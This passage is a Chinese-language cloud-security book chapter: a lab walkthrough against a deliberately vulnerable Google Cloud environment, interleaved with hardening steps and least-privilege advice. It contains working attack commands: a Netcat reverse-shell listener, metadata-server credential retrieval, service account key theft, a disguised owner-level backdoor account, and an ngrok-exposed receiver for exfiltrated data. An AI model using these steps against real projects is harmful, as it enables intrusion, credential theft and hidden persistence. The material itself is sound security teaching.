





## Chapter 10. Setting Up Backdoors and Escalating Privileges in Google Cloud

在上一章中，你了解了攻击者如何利用恶意文件上传来破坏事件驱动的文件处理工作流。在本章中，你将探索从此类攻击获得的初始访问权限如何被利用来设置后门、提升权限并破坏其他云资源。在此基础上，你将研究攻击者可以在 Google Cloud 环境中绕过限制并执行权限提升所使用的各种技术。


更具体地说，你将首先设置一个较低的请求超时，以限制攻击者在反向 shell 会话中运行恶意命令的时间窗口。在模拟攻击者如何调整其技术以规避这些限制之后，你将把易受攻击的 Cloud Run 服务的请求超时设置进一步降低到 10 秒，并降低相关服务账号的权限，以避免在易受攻击的服务被入侵时攻击者立即获得所有者级别的权限。在对无服务器实验室环境实施这些更改后，你将模拟攻击者绕过新的限制并配置后门服务账号以保持持久访问。你随后将探索攻击者可能用来利用配置错误并在 Google Cloud 账号中提升权限的多种策略和方法。

本章分为以下几个部分：

*   “设置较低的 Cloud Run 服务超时”
*   “生成与受损 Cloud Run 服务关联的服务账号密钥”
*   “配置后门服务账号”
*   “进一步降低 Cloud Run 超时并限制服务账号权限”
*   “在没有反向 shell 的情况下利用 Cloud Run 服务”
*   “通过 Cloud Run 函数提升权限”
*   “通过 Compute Engine VM 实例提升权限”

到本章结束时，你将明白强制执行最小权限原则对于最大限度降低受损云资源的影响至关重要。你也将更好地识别可能被攻击者利用的配置错误和薄弱的安全控制。

### Reviewing Technical Prerequisites

对于本章，你将继续使用来自 Chapter 9 的两个 Google Cloud 账号：Serverless Lab 账号用于托管易受攻击的按设计实验室环境，以及 Attacker 账号用于模拟攻击和测试安全控制。保持两个账号在单独的浏览器会话（或隐身/隐私窗口）中打开，以避免会话冲突。

#### Note

为了帮助你完成练习和模拟，本章使用的代码和命令的副本可在 [GitHub gist（见 `ch10.md`）](https://oreil.ly/0mSPU) 中获得。

### Setting a Lower Cloud Run Service Timeout

在上一章中，你能够建立反向 shell 连接并运行各种命令来检查无服务器实验室环境中的云资源。由于受损的 Cloud Run 服务配置了 20 分钟的执行超时，你有足够的时间在建立的连接上执行恶意命令、枚举资源并外泄敏感数据。实际上，执行超时设置可能要低得多，这限制了在建立的反向 shell 会话中执行命令或探索资源的时间窗口。在本节中，你将配置 Cloud Run 服务使用较低的执行超时，以探索这将如何限制攻击者在反向 shell 会话期间可以执行的操作。

#### Note

本节假定你正在使用你的 Serverless Lab 账号，该账号托管易受攻击的按设计无服务器实验室环境。

让我们现在更新已部署 Cloud Run 服务的超时设置：

1. 切换回打开 Serverless Lab 账号 Google Cloud 控制台的浏览器窗口。
2. 点击 Google Cloud 控制台右上角的 Activate Cloud Shell 按钮以打开 Cloud Shell 终端。
3. 检索并检查当前 Google Cloud 项目 ID：

```
cd ~
PROJECT_ID=$(gcloud config get-value project)
[[ -z "$PROJECT_ID" ]] && echo "Error: PROJECT_ID is not set."
```

如果运行这些命令后没有收到错误，这意味着你的 `PROJECT_ID` 已在环境中正确配置。否则，运行 `gcloud auth login` 并确保通过 `gcloud config set project [PROJECT_ID]` 配置了正确的项目，然后再继续下一步。

4. 列出当前项目中的所有 Cloud Run 服务：

```
gcloud run services list
```

这会产生以下输出：

```
✔
SERVICE: html-to-pdf-service
REGION: us-east1
URL: https://html-to-pdf-service-....us-east1.run.app
LAST DEPLOYED BY: user@email.com
LAST DEPLOYED AT: 2025-00-00T00:00:00
```

5. 检索已部署 Cloud Run 服务的名称并将其存储在变量中：

```
read RUN_SERVICE RUN_REGION < <(gcloud run services list \
  --format="value(name,region)" | grep '^html-to-pdf')
```

6. 显示 Cloud Run 服务的配置和状态：

```
gcloud run services describe $RUN_SERVICE --region=$RUN_REGION
```

这会返回以下内容：

```
✔ Service html-to-pdf-service in region us-east1

URL:     https://html-to-pdf-service-....us-east1.run.app
Ingress: all
Traffic:
  100% LATEST (currently html-to-pdf-service-00001-...)

Scaling: Auto (Min: 0)

Last updated on 2025-00-00T00:00:00.000000Z by user@email.com:
  Revision html-to-pdf-service-00001-abc
  Container None
    Image:           .../html-to-pdf-service
    Port:            8080
    Memory:          512Mi
    CPU:             1000m
    Env vars:
      OUTPUT_BUCKET  ss-output-bucket-...
    Startup Probe:
      TCP every 240s
      Port:          8080
      Initial delay: 0s
      Timeout:       240s
      Failure threshold: 1
      Type:          Default
  Service account:   html-to-pdf@....iam.gserviceaccount.com
  Concurrency:       1
  Max instances:     1
  Timeout:           1200s
```

7. 将指定的 Cloud Run 服务的超时更新为 120 秒：

```
gcloud run services update $RUN_SERVICE \
  --region=$RUN_REGION \
  --timeout=120
```

这会返回以下内容：

```
OK Deploying... Done.
  OK Creating Revision...
  OK Routing traffic...
Done.
Service [html-to-pdf-service] revision [html-to-pdf-service-...]
has been deployed and is serving 100 percent of traffic.
Service URL: https://html-to-pdf-service-....us-east1.run.app
```

8. 验证 Cloud Run 服务是否已使用新的超时设置进行更新：

```
gcloud run services describe $RUN_SERVICE \
  --region=$RUN_REGION
```

你应该得到以下输出响应：

```
✔ Service html-to-pdf-service in region us-east1

URL:     https://html-to-pdf-service-....us-east1.run.app

...

Last updated on 2025-00-00T00:00:00.000000Z by user@email.com:
  Revision html-to-pdf-service-00002-def
  Container None
    ...
  Max instances:     1
  Timeout:           120s
```


你已成功将易受攻击的 Cloud Run 服务的超时设置降低到 120 秒（2 分钟）。在阅读本章各节时，你会意识到，仅降低 Cloud Run 服务请求超时是不够的，无法完全防止熟练且有决心的攻击者攻击无服务器应用程序。

### 生成与受损 Cloud Run 服务关联的服务账号密钥

在本节中，你将模拟攻击者探索另一种攻击变体，并从反向 shell 生成服务账号密钥以维持访问权限。借助此密钥，你可以以与受损 Cloud Run 服务关联的服务账号身份进行身份验证，并在反向 shell 会话之外访问项目资源。

在动手操作之前，让我们先讨论几个关键术语：

Service account

: 

Google Cloud 身份，用于应用程序或服务（如 Cloud Run 服务）向 Google Cloud API 进行身份验证，并根据分配给它的 IAM 角色访问资源。

Service account key

: 

通常为 JSON 格式的文件，其中包含服务账号的凭据。它使外部应用程序或工具能够以服务账号身份进行身份验证并继承其权限，因此必须安全存储和处理以防止未经授权的访问。

#### Note

本节假设你正在使用你的 Attacker 账号，你将用它来模拟攻击者对托管在 Serverless Lab 账号中的实验环境资源执行操作。

让我们开始模拟：

1. 切换回浏览器窗口和 Cloud Shell 终端标签页，其中通过从 VM 实例内部运行的 Netcat 监听器建立了反向 shell 会话。

2. 按 CTRL-C 并在 VM 实例内部重新启动你的 Netcat 监听器（`nc -lvnp 4444`）。按 CTRL-C 后，如果在等待几分钟后 SSH 连接丢失，请使用另一个终端标签页中的 `gcloud compute ssh` 命令重新连接到 VM 实例并重新启动监听器。

3. 重新上传带有构造的恶意文件名的文件（在另一个 Cloud Shell 标签页中）以重新建立连接。在 Attacker 账号的另一个 Cloud Shell 终端标签页中，将你之前准备的同一文件上传到设计的输入存储桶：

```
FILENAME=index*
gsutil cp -- "$FILENAME" gs://$INPUT_BUCKET/
```

文件上传后几秒钟，你应该会看到连接已建立。

4. 一旦反向 shell 连接已建立，运行以下命令（在 `root@localhost:/app#` 之后）以从实例元数据服务器检索服务账号电子邮件并将其存储在变量中：

```
MD_URL="http://169.254.169.254/computeMetadata/v1"

SA_EMAIL=$(curl -s -H "Metadata-Flavor: Google" \
    "$MD_URL/instance/service-accounts/default/email")

echo $SA_EMAIL
```

这会给出以下输出：

```
html-to-pdf@....iam.gserviceaccount.com
```

生成新的服务账号密钥然后将其保存到本地：

```
gcloud iam service-accounts keys create /tmp/sa-key.json \
  --iam-account=$SA_EMAIL
```

这会产生以下输出：

```
created key [...] of type [json] as [/tmp/sa-key.json] for
 [html-to-pdf@....iam.gserviceaccount.com]
```

运行以下命令以检查 `sa-key.json` 的内容：

```
cat /tmp/sa-key.json
```

这会给出以下 JSON 输出：

```
{
  "type": "service_account",
  "project_id": "...",
  "private_key_id": "...",
  "private_key": "...",
  "client_email": "html-to-pdf@....iam.gserviceaccount.com",
  "client_id": "...",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "...",
  "client_x509_cert_url": "...",
  "universe_domain": "googleapis.com"
}
```

将上一步的 JSON 输出复制到剪贴板中。^(1)

5. 在 Attacker 账号中创建一个新的 Cloud Shell 终端标签页并运行以下命令（在 `$` 符号之后）以创建一个名为 `sa-key.json` 的空文件，用于保存服务账号密钥：

```
touch sa-key.json
```

6. 点击 Open Editor 以启动 Cloud Shell Editor。

7. 使用你之前复制的输出更新 `sa-key.json` 文件。继续操作前请确保保存文件。

8. 点击 Open Terminal。

9. 运行以下命令以使用 `sa-key.json` 文件以受损 Cloud Run 服务使用的服务账号身份进行身份验证：

```
export SA_CREDENTIALS="sa-key.json"
gcloud auth activate-service-account \
  --key-file=$SA_CREDENTIALS

PROJECT_ID=$(cat sa-key.json | jq -r ".project_id")
gcloud config set project $PROJECT_ID
```

这会产生以下输出：

```
Activated service account credentials for:
[html-to-pdf@....iam.gserviceaccount.com]

Updated property [core/project].
```

10. 列出服务账号可访问的所有 Google Cloud 项目：

```
gcloud projects list
```

这会返回在 Serverless Lab 账号中创建的项目的 ID、名称和编号：

```
PROJECT_ID: ...
NAME: ...
PROJECT_NUMBER: ...
```

11. 列出当前 `gcloud` 配置中所有活动的已认证账号：

```
gcloud auth list
```

这会产生以下输出：

```
Credentialed Accounts

...

ACTIVE: *
ACCOUNT: html-to-pdf@....iam.gserviceaccount.com

To set the active account, run:
    $ gcloud config set account `ACCOUNT`
```

12. 以 JSON 格式检索 IAM 策略：

```
gcloud projects get-iam-policy $PROJECT_ID --format=json
```

这会产生以下输出：

```
{
  "bindings": [
    ...
    {
      "members": [
        "serviceAccount:html-to-pdf@....iam.gserviceaccount.com",
        "user:..."
      ],
      "role": "roles/owner"
    },
    ...
  ],
  "etag": "...",
  "version": 1
}
```

13. 检索与受损服务账号关联的属性和详细信息：

```
gcloud iam service-accounts describe \
  $(gcloud config get-value account)
```

这会返回以下内容：

```
Your active configuration is: [cloudshell-1234]
displayName: Cloud Run HTML to PDF Service Account
email: html-to-pdf@....iam.gserviceaccount.com
etag: ...
name: projects/.../serviceAccounts/html-to-pdf@....iam.gserviceaccount.com
oauth2ClientId: '...'
projectId: ...
uniqueId: '...'
```

14. 列出项目中所有唯一的资源类型：

```
gcloud asset search-all-resources \
  --project="$PROJECT_ID" \
  --format="value(assetType)" | sort | uniq
```

这会产生以下输出：

```
artifactregistry.googleapis.com/DockerImage
artifactregistry.googleapis.com/Repository
cloudbilling.googleapis.com/ProjectBillingInfo
cloudresourcemanager.googleapis.com/Project
dataplex.googleapis.com/EntryGroup
eventarc.googleapis.com/Trigger
...
```

15. 让我们检查你是否能够访问无服务器实验环境中的其他资源。

列出项目中的所有存储桶名称：

```
gcloud storage buckets list \
  --project=$PROJECT_ID \
  --format="value(name)"
```

这会输出以下内容：

```
...
ss-another-bucket-...
ss-input-bucket-...
ss-output-bucket-...
```

列出项目中的所有参数：


```
gcloud parametermanager parameters list \
  --project=$PROJECT_ID \
  --location=global \
  --format="value(name)"
```

这应该返回：

```
projects/.../locations/global/parameters/param-000
```

此时，你应该能够使用服务账号密钥进行身份验证并探索其他项目资源。从防御性安全角度来看，确保服务账号仅具有执行其任务所需的最小权限非常重要。避免授予可能在密钥被泄露时被滥用的过度访问权限。

### 配置后门服务账号

在本节中，你将模拟攻击者配置一个服务账号，该账号将作为未来访问无服务器实验室环境资源的持久后门。借助此后门，即使之前的漏洞和配置错误已被修复，攻击者仍会有一种方式访问环境。你可以将后门服务账号视为安全建筑中所有房间的主钥匙，即使访问控制已更改，入侵者仍可获得持久访问权限。

#### Note

本节假设你使用的是 Attacker 账号，你将使用该账号来模拟攻击者对托管在 Serverless Lab 账号中的实验室环境执行操作。

让我们继续模拟并逐步了解创建后门服务账号的过程：

1. 在前一节中继续进行并列出项目中的所有服务账号：

```
gcloud iam service-accounts list \
  --project=$PROJECT_ID \
  --format="value(name)"
```

这会产生以下输出：

```
...
projects/.../serviceAccounts/html-to-pdf@....iam.gserviceaccount.com
```

2. 将活动的 Google Cloud 项目设置为指定的项目 ID：

```
gcloud config set project $PROJECT_ID
```

3. 创建一个名为 `system-update-agent` 的新服务账号：

```
gcloud iam service-accounts create system-update-agent \
  --description="Handles routine system updates" \
  --display-name="System Update Agent"
```

你应该收到以下确认消息：

```
Created service account [system-update-agent].
```

#### Note

攻击者经常创建具有通用或听起来像操作性的名称的服务账号（例如 `system-update-agent`、`backup-service` 或 `monitoring-task`），以使其看起来合法并与正常操作融为一体。

4. 向 `system-update-agent` 服务账号授予 `roles/owner` 角色：

```
NAME="system-update-agent"

gcloud projects add-iam-policy-binding $PROJECT_ID \
  --member="serviceAccount:$NAME@$PROJECT_ID.iam.gserviceaccount.com" \
  --role="roles/owner"
```

5. 生成新的服务账号密钥然后将其保存在本地：

```
gcloud iam service-accounts keys create ~/sys-update-key.json \
  --iam-account=$NAME@$PROJECT_ID.iam.gserviceaccount.com
```

这会输出以下内容：

```
created key [...] of type [json] as [/home/.../sys-update-key.json]
for [system-update-agent@....iam.gserviceaccount.com]
```

此时，你拥有一个生成的密钥，可使用 `gcloud auth activate-service-account` 与其配合使用以冒充 `system-update-agent` 账号。

#### Note

从攻击者的角度来看，此密钥提供了一种通过使用服务账号维持对环境的访问方式，而无需再次利用原始漏洞和配置错误。

请记住，攻击者还可以通过其他方式建立后门。例如，他们可能会部署一个 rogue Cloud Run 函数或服务，在被调用时返回有效凭据以重新获得访问权限。他们还可能启动具有提升 IAM 权限的 VM，并在需要重新建立访问权限时通过 SSH 登录到该 VM，从元数据服务器检索令牌或生成新密钥。

从防御性安全角度来看，你应定期审计所有项目是否存在意外或过度特权的服务账号、密钥和其他资源。重要的是检查这些资源何时创建，按定期计划轮换凭据，并通过自动化警报审查活动日志以识别可疑或未经授权的操作。你还应修复攻击者在设置持久性机制（例如 rogue 账号、计划作业或策略更改）之前可能利用的任何现有漏洞或配置错误。解决这些差距并强制执行最小权限原则可降低攻击者再次进入环境的风险。

### 进一步减少 Cloud Run 超时并限制服务账号权限

即使请求超时设置为两分钟，你也亲眼看到攻击者仍可在反向 shell 会话中运行恶意命令并规避超时设置引入的限制。在本节中，你将进一步将 Cloud Run 服务请求超时设置减少到 10 秒，如 Figure 10-1 所示。



这将帮助你确认大幅减少的超时配置是否足以防止攻击者成功利用有意设计为易受攻击的应用程序。此外，你将减少与 Cloud Run 服务关联的服务账号的权限，以防止在服务被入侵时攻击者立即获得所有者级别权限。

#### Note

本节假设你使用的是你的 Serverless Lab 账号，该账号托管着易受攻击的无服务器实验室环境。

让我们现在继续对服务应用超时和权限更改：

1. 切换回用于设置易受攻击的无服务器实验室环境的 Serverless Lab 账号的 Google Cloud 控制台浏览器窗口。

2. 在 Cloud Shell 终端中（在 `$` 符号之后），检索已部署的 Cloud Run 服务名称并将其存储在变量中：

```
read RUN_SERVICE RUN_REGION < <(gcloud run services list \
  --format="value(name,region)" | grep '^html-to-pdf')
```

3. 显示 Cloud Run 服务的配置和状态：

```
gcloud run services describe $RUN_SERVICE --region=$RUN_REGION
```

这会产生以下输出：

```
✔ Service html-to-pdf-service in region us-east1

...

Last updated on 2025-00-00T00:00:00.000000Z by user@email.com:
  Revision html-to-pdf-service-00001-abc

  ...

  Service account:   html-to-pdf@....iam.gserviceaccount.com
  Concurrency:       1
  Max instances:     1
  Timeout:           120s
```

在这里，你可以看到 Cloud Run 服务当前的请求超时设置为 120 秒。

4. 为 Cloud Run 服务配置 10 秒超时限制：

```
gcloud run services update $RUN_SERVICE \
  --region=$RUN_REGION \
  --timeout=10
```

这会产生以下输出：

```
OK Deploying... Done.
  OK Creating Revision...
  OK Routing traffic...
Done.
Service [html-to-pdf-service] revision [html-to-pdf-service-...]
has been deployed and is serving 100 percent of traffic.
Service URL: https://html-to-pdf-service-....us-east1.run.app
```

5. 让我们验证 Cloud Run 服务是否已使用新的超时设置进行更新：

```
gcloud run services describe $RUN_SERVICE \
  --region=$RUN_REGION
```

你应该得到以下输出响应：


```
✔ Service html-to-pdf-service in region us-east1

URL:     https://html-to-pdf-service-....us-east1.run.app

...

Last updated on 2025-00-00T00:00:00.000000Z by user@email.com:
  Revision html-to-pdf-service-00002-def
  Container None
    ...
  Max instances:     1
  Timeout:           10s
```

6. 为项目启用所需的 Google Cloud 服务：

```
gcloud services enable \
  translate.googleapis.com \
  vision.googleapis.com \
  cloudfunctions.googleapis.com \
  eventarc.googleapis.com \
  run.googleapis.com \
  artifactregistry.googleapis.com \
  compute.googleapis.com \
  iam.googleapis.com
```

7. 初始化你的项目 ID、区域和服务账号邮箱变量：

```
PROJECT_ID=$(gcloud config get-value project)
REGION="us-east1"
SA_NAME="html-to-pdf"
SA_EMAIL="$SA_NAME@$PROJECT_ID.iam.gserviceaccount.com"
```

8. 删除当前分配给与 Cloud Run 服务关联的指定服务账号的所有 IAM 角色：^(2)

```
for ROLE in $(gcloud projects get-iam-policy "$PROJECT_ID" \
  --flatten="bindings[].members" \
  --format='value(bindings.role)' \
  --filter="bindings.members:serviceAccount:$SA_EMAIL"); do
    echo "Removing $ROLE from $SA_EMAIL"
    gcloud projects remove-iam-policy-binding "$PROJECT_ID" \
      --member="serviceAccount:$SA_EMAIL" \
      --role="$ROLE" \
      --quiet
done
```

9. 向与 Cloud Run 服务关联的服务账号授予以下 IAM 角色：`roles/editor`、`roles/iam.serviceAccountUser` 和 `roles/run.admin`：

```
gcloud projects add-iam-policy-binding "$PROJECT_ID" \
  --member="serviceAccount:$SA_EMAIL" \
  --role="roles/editor"

gcloud projects add-iam-policy-binding "$PROJECT_ID" \
  --member="serviceAccount:$SA_EMAIL" \
  --role="roles/iam.serviceAccountUser"

gcloud projects add-iam-policy-binding "$PROJECT_ID" \
  --member="serviceAccount:$SA_EMAIL" \
  --role="roles/run.admin"
```

10. 列出分配给服务账号的所有 IAM 角色：

```
gcloud projects get-iam-policy $PROJECT_ID \
  --flatten="bindings[].members" \
  --format='table(bindings.role)' \
  --filter="bindings.members:$SA_EMAIL"
```

这将产生以下输出：

```
ROLE: roles/editor

ROLE: roles/iam.serviceAccountUser

ROLE: roles/run.admin
```

11. 创建一个名为 `superadmin` 的新服务账号：

```
SA_NAME="superadmin"
SA_EMAIL="$SA_NAME@$PROJECT_ID.iam.gserviceaccount.com"

gcloud iam service-accounts create "$SA_NAME" \
  --project="$PROJECT_ID" \
  --display-name="$SA_NAME"
```

12. 等待大约一分钟，然后授予该服务账号在项目中的 `roles/owner` 角色：

```
gcloud projects add-iam-policy-binding "$PROJECT_ID" \
  --member="serviceAccount:$SA_EMAIL" \
  --role="roles/owner"
```

#### Note

如果收到 `ERROR: Policy modification failed.` 错误消息，请在重试命令前再等待几分钟。

13. 运行以下命令，然后将存储桶名称复制到本地机器上的文本编辑器以供以后参考：

```
cat ~/bucket-vars.sh
```

此时，你的易受攻击的按需无服务器环境已配置了更短的 Cloud Run 请求超时和更受限制的服务账号，减少了服务的执行窗口并限制了其可使用的权限。虽然你可能会认为这些更改已足够，但一个有决心的攻击者可以调整其方法来规避本节中引入的限制。

### 在没有反向 Shell 的情况下利用 Cloud Run 服务

在前一节中，你使用相对更安全的配置升级了事件驱动的文件处理应用程序。但你会看到，即使有这些改进，攻击者仍会找到利用漏洞和配置错误并提升权限以获得所有者级权限的方法。在本节中，你将模拟攻击者技术，这些技术不依赖反向 Shell 来从易受攻击的 Cloud Run 服务中外泄环境变量、源代码或服务账号凭据。

为了帮助你深入了解攻击者如何在不使用反向 Shell 的情况下规避限制并外泄敏感数据，本节分为以下几个部分：

*   “设置本地服务器和接收外泄数据的隧道”
*   “从 Cloud Run 服务外泄环境变量”
*   “从 Cloud Run 服务外泄源代码”
*   “从 Cloud Run 服务外泄服务账号凭据”

话不多说，让我们开始吧！

#### 设置本地服务器和接收外泄数据的隧道

在 第 9 章 中，你设置了反向 Shell 监听器来处理来自受损 Cloud Run 服务的传入反向 Shell 连接。由于你直到本章末尾才使用反向 Shell，你将改为设置本地服务器以及隧道，以模拟攻击者通过代码注入攻击捕获外泄的数据。

#### Note

本节假设你使用的是本地机器。或者，你也可以在攻击者账号中设置 VM 实例（或使用任何现有实例）。确保网络配置允许端口 8000 和 4040。

让我们逐步介绍设置本地服务器和隧道的步骤：

1. 在本地机器上的终端窗口中，运行以下命令以克隆 `request-receiver` GitHub 仓库：

```
GH_USERNAME=learning-serverless-security
GH_REPO=request-receiver

git clone https://github.com/$GH_USERNAME/$GH_REPO.git

cd request-receiver
```

2. 创建并激活 Python 虚拟环境：

```
python3 -m venv venv
source venv/bin/activate
```

3. 安装 `requirements.txt` 中列出的依赖项：

```
pip install -r requirements.txt
```

4. 启动应用程序：

```
python app.py
```

你应该会看到以下输出，表明 Flask 正在运行并准备接收请求：

```
* Serving Flask app 'app'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:8000
 * Running on http://192.168.254.159:8000
Press CTRL+C to quit
```

#### Note

请确保让此 Flask 服务器保持运行，以确保在后续章节的测试期间可以访问它。

5. 在另一个终端窗口（或标签页）中，通过在端口 8000 上启动 `ngrok` 隧道将你的 Flask 服务器暴露到互联网：^(3)

```
ngrok http 8000
```

这会产生以下输出：


```
ngrok

...

Session Status          online
Account                 ... (Plan: Free)
Version                 3.23.3
Region                  Asia Pacific (ap)
Latency                 47ms
Web Interface           http://127.0.0.1:4040
Forwarding              https://<ID>.ngrok-free.app -> http://localhost:8000

Connections             ttl     opn     rt1     rt5     p50     p90
                        0       0       0.00    0.00    0.00    0.00
```

#### Note

请务必从 `Forwarding` 部分复制 HTTPS 转发 URL（例如，`https​://<ID>.ngrok-free.app`）。在后续步骤中你需要它来接收本地的 HTTP 请求。

